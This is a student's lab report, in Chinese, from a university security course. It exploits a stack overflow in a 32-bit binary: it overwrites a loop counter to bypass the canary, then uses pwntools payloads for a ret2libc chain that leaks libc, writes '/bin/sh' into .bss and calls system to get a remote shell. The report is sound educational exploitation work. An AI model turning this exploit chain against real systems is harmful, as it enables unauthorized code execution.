

# 网络安全工程 实验五：软件安全-漏洞利用实验

> 李逸飞 2015010062

## 实验要求

通过分析压缩包内的二进制程序vul32，找出漏洞，并写出利用脚本，获取远程服务器上的flag文件
提供远程服务的二进制程序和使用的libc

远程服务器地址：nc 202.112.51.154 20001

本次实验独立完成，不组队，每位同学提交自己的利用脚本和实验报告，其中需要写明使用的工具、利用原理和最终取得的flag，以"学号-姓名"的命名方式打包必要的文件，报告推荐使用pdf格式。

## 实验平台

实验在本人的AWS服务器上进行

- OS: Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-1031-aws x86_64)
- Python: Python 2.7.15 rc1
- 攻击工具: pwn, checksec

## 攻击结果

直接在`vul32`目录下执行

```sh
$ ./hack.py
```

即可获取目标机器的shell，从而得到`/home/ctf_puck/flag`，内容为

```sh
$ cat flag
flag{Ok_yOu_get@#$_it!}
```

攻击结果如下图所示，打出大量GG，同时还用`uname -a`输出了目标机器的信息：


## 实验过程

### 漏洞发现

刚开始直接使用大量输入进行栈溢出，初步发现


可以看到，有时会正常退出，有时会导致SIGSEGV，提示数组越界。且最后一个输出的字符会有偏移。判断可能有buffer边界保护，使用`checksec`检查该程序包含的保护机制如下


可以看到打开了`CANARY`即数组边界保护，以及`NX`即不能执行栈上的代码，所以不能直接在栈上插入shellcode，同时考虑到提供了`libc.so`，可以使用`ret2lib`攻击方法。

利用`objdump`导出vul32文件的汇编代码`vul32.S`，观察`main`函数，可以看到调用了一个`dovuln`的函数，进一步检查该函数，该函数中进行了未保护的buffer输入，存在漏洞，可以利用。

使用IDA反汇编，得到`vul32.c`如下

```c
    int dovuln()
    {
    int v0; // eax@5
    int result; // eax@6
    int v2; // ecx@6
    char buf; // [sp+4h] [bp-44h]@2
    char v4[51]; // [sp+5h] [bp-43h]@1
    int v5; // [sp+38h] [bp-10h]@1
    int v6; // [sp+3Ch] [bp-Ch]@1

    v6 = *MK_FP(__GS__, 20);
    memset(v4, 0, 0x30u);
    v5 = 0;
    while ( 1 )
    {
        if ( read(0, &buf, 1u) != 1 )
        exit(0);
        if ( buf == 10 )
        break;
        v0 = v5++;
        v4[v0] = buf;
    }
    result = puts(v4);
    v2 = *MK_FP(__GS__, 20) ^ v6;
    return result;
    }
```

可以看到，开辟的buf大小为51，此外还有一个char buf，用来每次读入一个字节（字符），并将其复制到buf数组中。同时，观察`v6`和`v2`，它们是用于buf边界保护的canary，即将`%gs`段某地址中的随机值写入buf末尾某地址，写buf结束后，判断该地址中的值是否与原时值相等，若不等，说明发生缓冲区溢出。这部分汇编代码如下，可以看到canary地址为`-0xc(%ebp)`

```nasm
    8048649:	8b 4d f4             	mov    -0xc(%ebp),%ecx
    804864c:	65 33 0d 14 00 00 00 	xor    %gs:0x14,%ecx
    8048653:	74 05                	je     804865a <dovuln+0x8f>
    8048655:	e8 06 fe ff ff       	call   8048460 <__stack_chk_fail@plt>
 ```

此外，观察到还有一个计数器`v0`，不妨称为`cnt`。

为了方便调试，我编写了`.gdbinit`，各断点如下（对应于vul32.S）：

| breakpoint | meaning |
|-|-|
|`0x80485da`|设置canary后|
|`0x8048641`|调用`puts`输出buf前|
|`0x804865b`|从`dovuln`返回前|
|`0x80486cb`|从`main`返回前|

具体运行时，处于`dovuln`函数中栈上情况如下（调试时的草图）


其中一些关键成员如下表

| item | addr |
|-|-|
|return address| `0xffffd5ac` |
|ebp|`0xffffd5a8`|
|canary|`0xffffd59c`|
|cnt|`0xffffd598`|
|buf|`0xffffd565`|
|char buf|`0xffffd564`|

canary在用gdb调试时可以观察到地址为`0xffffd59c`，内容是一个每次运行不同的随机值：



### 返回地址改写

由于canary的存在，直接在buf中覆盖到return address是不可行的。但仍然有可以利用的地方，就是计数器`cnt`，位置是`-0x10(%ebp)`，它用于把char buf中读到的字符（字节）复制到目标地址（偏址寻址）的偏移量，相关代码如下，即`0x8048630`处指令中的`%eax`，目标地址为`%ebp + %eax * 0x1 - 0x43`：

```nasm
    8048623:	8b 45 f0             	mov    -0x10(%ebp),%eax
    8048626:	8d 50 01             	lea    0x1(%eax),%edx
    8048629:	89 55 f0             	mov    %edx,-0x10(%ebp)
    804862c:	0f b6 55 bc          	movzbl -0x44(%ebp),%edx
    8048630:	88 54 05 bd          	mov    %dl,-0x43(%ebp,%eax,1)
 ```

考虑到在最初试探时，输入恰当数量的`k`并不会导致数组越界错误，其实就是因为恰好把cnt改成了越过canary的位置，而输入其他字符可能会导致错误，因为偏移不够覆盖了canary。而结尾的偏移字符其实是输出了cnt本身。比如输入';'（0x3b，59），会恰好越过canary：


回顾上面的栈布局图（草图），写满cnt以下全部buf后，cnt为51，考虑到小端序，只需要在 **输入的第52个字节（字符）处** 设为恰好指向要改写目标的cnt值即可，继续观察上图，return address起始地址对应的cnt是71，也即`0x47`，或字母`G`，所以只需要连续 **输入52个'G'** 即可（打出GG

在52个G后即跟上希望返回的目标地址，比如返回到同一函数中的准备调用`puts`位置（因为只需要第53个字符为可键盘输入的字符'7' \[0x37\]即可）。结果如下


发生栈溢出（stack smashing），因为不断返回到函数调用语句，形成了无穷调用。

### 攻击实现

在探明返回地址改写方法后，就可以进入高层次的攻击设计。这里使用`pwn`工具辅助攻击，具体代码参考`vul32/hack.py`。

要获取/bin/sh，还缺少两个条件，一是`system`函数地址，而是`/bin/sh`字符串（地址）。经过检查libc.so.6，发现了system，但没有/bin/sh字符串。此外`vul32`中没有加载过`system`，因此也无法直接调用`system`。

#### 获取`system`

但libc中各函数相对于libc的起始位置是固定的，可以用`nm -D`查看

```sh
$ nm -D libc.so.6|grep system
0003a940 T __libc_system
00110840 T svcerr_systemerr
0003a940 W system
```

可见system的偏移地址为`0x0003a940`，同理可以得到`write`和`gets`的偏移.

为了得到libc在内存中的起始地址，必须动态在攻击过程中让程序输出一些地址，比如程序用到的`write`函数，因为它在程序的PLT和GOT表中，PLT中为可以调用的代码，它指向GOT表中的同名函数所在位置，而该位置内存中存储着实际的`write`函数地址，在PLT代码中使用`jmp *`跳转到GOT内存中的实际地址执行代码并返回PLT代码。

这里选择使用`write`函数输出它自己的实际地址，构造栈空间如下：

```py
    payload = flat([    \
        'G' * 52,       \
        write_addr,     \
        dovuln_addr,    \
        1,              \
        write_got,      \
        4               \
    ])
```

攻击改写的地址为PLT中write地址，write的返回地址为dovuln地址，为了继续下一次缓冲区溢出攻击，三个参数分别为1（stdout），GOT中write地址（也即存储write真实地址的地址），4（4个字节）

读取返回结果时，要注意因为原程序是一个 *复读机* ，函数有一个`puts`再输出用户之前的输入，要把这部分去掉，读取返回的`write`实际地址

```py
    # GGG...
    rc = sh.recv()
    print 'rcv 2nd,', rc
    # \n addr
    rc = sh.recv()
    print 'rcv 3rd,', rc
    write_addr = u32(rc[1:5])   # discard '\n'
    print "write_addr 0x%x" % write_addr
```

接着用这个地址减去`write`在libc中的偏移即可得到libc基址，再加上system偏移即为`system`地址

#### 获取`/bin/sh`

由于libc中没有出现/bin/sh，因此需要手动构造，但我又不想输入`shn/bi//`类似的字符，还需要自行计算地址，因此我想到可以找一段可能存在的.bss段，把/bin/sh字符串直接写进去

检查`vul32.S`，恰好有一个非stdin/err/out的地址`completed`

```nasm
0804a088 <completed.7181>:
 804a088:	00 00                	add    %al,(%eax)
	...
```

那么我直接使用gets函数把/bin/sh读入这个地址（`STR_ADDR`）即可

```py
    payload = flat([    \
        'G' * 52,       \
        gets_addr,      \
        dovuln_addr,    \
        STR_ADDR        \
    ])
```

同样返回`dovuln`，进行最后一次攻击，这次直接调用`system`，把包含/bin/sh的地址作为参数传入，返回值（没用）为原`dovuln`的返回值

```py
    payload = flat([    \
        'G' * 52,       \
        system_addr,    \
        VUL_RET_ADDR,   \
        STR_ADDR        \
    ])
```

这之后就启动了shell，只需进入`interactive()`模式即可

```py
    # got shell
    print "now pwn"
    sh.interactive()
```
